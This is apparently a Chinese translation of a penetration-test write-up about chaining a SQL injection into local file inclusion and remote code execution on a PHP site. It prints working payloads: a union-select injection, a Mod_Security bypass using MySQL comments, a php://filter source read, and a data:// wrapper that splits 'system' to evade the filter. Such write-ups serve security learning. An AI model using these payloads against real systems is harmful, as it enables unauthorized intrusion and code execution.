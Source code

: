 # SQL 注入到 RCE

> 原文：<https://infosecwriteups.com/sql-injection-to-lfi-to-rce-536bed29a862?source=collection_archive---------0----------------------->

![](img/96eddda159de10f3a6f0bb459d0eafa7.png)

在接下来的几行中，我将展示一个案例，几天前我在[**开放数据安全**](https://opendatasecurity.io) 为我们的一个客户进行渗透测试时，我感兴趣的是我需要如何连接几个因素来获得 RCE。

由于显而易见的原因，一些客户数据将被匿名化。

在对目录进行模糊处理时，我发现了一个文件夹，里面有一个 php 文件:

```
https://customer.com/php/load.php
```

当我测试 url 时，我得到一个 php 警告:

![](img/0fe68a7b601ccfe7ad707ac025024c4b.png)

正如我们所见，该应用程序正试图包括一个空文件名与. php 扩展名。接下来我想到的是，也许我可以在 GET 参数中控制文件名，所以我决定强制使用一些参数。在使用任何脚本之前，我想我应该测试一下普通的老学校网站模块参数，比如" *sec，section，mod，mod，file，page 等等。令我惊讶的是，参数“*page”*抛出了一个不同的错误，一条 MySQL 警告消息:*

![](img/3bdcc590f3c615219f2879343e95d5c1.png)

我们可以看到，include 函数继续在同一点使用空文件名，但我们可以看到我们得到了一个 MySQL 错误，然后从这里我尝试猜测应用程序从数据库中获得了所需的文件名，从这里我尝试了通常的 SQL 输入:

```
https://customer.com/php/load.php?page=**’ or ‘’=’**
```

并且我得到了包含警告消息，但是这次文件名不是空的，是***【analytics.php*】**，第一个路径字符串有一个点，网站 css 样式没有加载(现在链接不是粉色的)

![](img/67d92e92ed34c8970fdb8c9432a56c6a.png)

嗯，那时我确信 include()从数据库中获取部分路径，我们需要尝试一个**联合类型 SQL 注入**，这样我们就可以控制路径并尝试本地文件包含。

在我尝试的第一次注入中，我得到了 406 响应，网站启用了 **Mod_Security apache 模块**，不幸的是它检测到了我的注入，但正如一些人所知，过时的Mod_Security 版本**可以通过注入字符串中的 MySQL 注释绕过**。我试了一下，用一个 9 列注入式查询成功了:

```
https://customer.com/php/load.php?page=’ **/*!50000union*/** select 1,2,3,4,5,6,7,8,9-- -
```

![](img/7b793110c1273d13e0178cd9a38fedbe.png)

在整个 web 应用程序中，我没有找到任何其他地方，上传表单允许上传图像或任何带有 php 代码的文件扩展名，我可以随意包含以利用当前的本地文件包含，但正如您在前面的图像中所看到的，我观察到我可以操纵路径的开头，这对我来说很好，因为我知道我可以尝试使用一些 **php 包装器**。

首先，我使用**PHP://filter/convert . base64-encode/resource = "**包装器来读取 index.php 文件:

```
https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,’**../index**’,7,8,’**php://filter/convert.base64-encode/resource=.**’ -- -
```

瞧，我们得到了一串 base64 编码的 index.php 源代码

![](img/2e833e2139fe8d4c1dc772404da829bd.png)

啊，此时我想要的是得到一个 RCE，所以我首先尝试了 input:// wrapper，但是没有成功，因为应用程序将输入与路径的其余部分连接起来，并且由于强大的 Mod_Security 模块，使用 nullbyte %00 是不可能的。然后我决定**尝试用 data:// wrapper** 发送一些 php 代码，希望能够执行:

```
https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,**<?php echo system(“uname -a”);?>**’-- -
```

我又一次收到了 Mod_Security 406 响应，阻止了我。想了一些，我认为问题出在“系统”字符串上，于是我回去编写了一些 php 代码行:

```
<?php
$a=”sy”;
$b=”stem”;
$c=$a.$b;
$c(“uname -a”);
?>
```

最后有效载荷是:

```
https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,**<?php $a=”sy”;$b=”stem”;$c=$a.$b; $c(“uname -a”);?>**’ -- -
```

我们的命令结果是:

![](img/ac0f97bc985163cc1305ad2a90e06eeb.png)

**后来终于得到了 RCE！！！^_^**

![](img/1c9b8fbde3af8b65b60957b4fdd7519c.png)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)
